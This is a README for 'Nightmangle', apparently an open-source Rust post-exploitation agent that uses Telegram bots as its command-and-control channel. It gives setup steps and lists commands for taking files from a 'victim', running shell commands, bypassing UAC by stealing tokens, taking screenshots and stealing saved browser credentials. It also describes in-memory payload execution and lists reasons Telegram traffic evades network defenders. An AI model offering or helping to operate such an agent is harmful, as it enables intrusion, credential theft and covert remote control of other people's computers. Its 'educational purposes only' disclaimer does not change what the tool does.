





<div align="center">
  <br />
</div>

<div align="center">
  <h1>Nightmangle</h1>
  <br/>

  <p><i>Nightmangle is post-exploitation Telegram Command and Control (C2/C&C) Agent, created by <a href="https://t.me/P0x3k">@1N73LL1G3NC3</a>.</i></p>
  <p><i>It was developed as Proof of Concept (POC), that Telegram API can be used by threat actors for post-exploitation and to control their agents.</a>.</i></p>
  <p><i>Nightmangle uses Telegram as a C2 server to communicate between the attacker and the client. However, it can only set one Telegram bot API per payload. This means that if you want to infect another machine, you need to build a new payload with a new Telegram bot API</a>.</i></p>
  <br />

> :warning: Please keep in mind that these Agent has been developed and shared for educational purposes only! Any misuse of this info will not be the responsibility of the author.
  
</div>

## Quick Start

 1. [Download Rust](http://rustup.rs/).
 2. Create a new bot using [@Botfather](https://t.me/botfather) to get a token in the format `0123456789:XXXXxXXxxxXxX3x3x-3X-XxxxX3XXXXxx3X`.
 3. Put these token into `Bot::new("0123456789:XXXXxXXxxxXxX3x3x-3X-XxxxX3XXXXxx3X")`.
 4. Obtain Telegram UserId for a bot maintainer user in the format `9876543210`.
 5. Put these UserId into `ConfigParameters {bot_maintainer: UserId(9876543210)}`.
 6. Make sure that your Rust compiler is up to date:
```bash
$ rustup update nightly
$ rustup override set nightly
```
 7. Compilation:
 ```bash
# Windows PowerShell
$ cargo build --release
```

---

### Agent

> Fully written in Rust

#### Commands: ####

```
Help            - Display help info.                                                                /help
ShowDir         - Show content of specified directory.                                              /showdir {dirname}
SendFile        - Get specified file from victim.                                                   /sendfile {filepath}
Task            - Execute specified shell commnd.                                                   /task cmd.exe /c {command}
Imperun         - Impersonate and run (Token Duplication UAC Bypass)                                /imperun {list/exec} {pid} {cmd.exe /c whoami}
Screenshot      - Take screenshot.                                                                  /screenshot
St3al3r         - Steal saved credentials from browsers (Firefox, Edge, Chromium, Chrome, Brave)    /st3al3r
```
<div align="center">
  <br />
</div>
<div align="center">
  <br />
</div>

#### Coffee ####

Coffee is a custom implementation of the original Cobalt Strike's beacon_inline_execute. It supports most of the features of the Cobalt Strike compatibility layer, based on [Coffee](https://github.com/hakaioffsec/coffee). To use these module, select BOF file with name ends with '.o' like `whoami.x64.o` to send.

**BOF Arguments**
```
Arguments for the BOF can be passed as caption to the message. Each argument must be prefixed with the type of the argument followed by a colon (:). The following types are supported:

    str - A null-terminated string
    wstr - A wide null-terminated string
    int - A signed 32-bit integer
    short - A signed 16-bit integer
```

<div align="center">
  <br />
</div>

#### In-memory .NET Assembly Execution ####

Based on [ClrOxide](https://github.com/yamakadi/clroxide), it will load the CLR in the current process, resolve mscorlib, run your executable and return output back to the Telegram chat.

<div align="center">
  <br />
</div>

#### Token Duplication UAC Bypass ####

Imperun uses a token, stolen from an elevated process, to launch an elevated process of the attacker’s choosing, based on [Impersonate-RS](https://github.com/zblurx/impersonate-rs).

<div align="center">
  <br />
</div>

#### File upload ####

Just select file to send and add caption with destination directory, to the message.

### Server

- Evasion: Telegram traffic can blend in with legitimate network traffic, making it less likely to be detected or blocked by network security solutions.
- Encryption: Telegram uses end-to-end encryption for messages and files, which adds a layer of security and privacy to communications between the attacker and compromised systems.
- Multi-platform Support: Telegram is available on various platforms, including desktop, mobile, and web. This flexibility allows attackers to control compromised systems from virtually anywhere.
- Rich Features: Telegram offers a range of features, such as the ability to send files, execute commands, and receive responses, making it a versatile choice for C2 communication.
- Reliability: Telegram is a widely used messaging platform with a reputation for reliability and uptime. This can be crucial for maintaining C2 connectivity.
- Large User Base: Telegram has a large user base, which can help an attacker blend in with legitimate users and make it more challenging for defenders to distinguish malicious activity.
- No Direct IP Connections: Telegram clients connect to Telegram's servers, which then relay messages to the recipient. This can help hide the attacker's IP address and location.
- Evasion of Traditional Detection Methods: Telegram's use of HTTPS and TLS encryption for traffic can make it harder for traditional intrusion detection systems (IDS) and intrusion prevention systems (IPS) to inspect or block malicious traffic.

---

## Note

You can join my Telegram channel [1N73LL1G3NC3](https://t.me/P0x3k) if you are interested in offensive security!

The Nightmangle hasn't been developed to be evasive. Rather it has been designed to be as modular as possible. Giving the operator the capability to add custom features or modules that evades their targets detection system.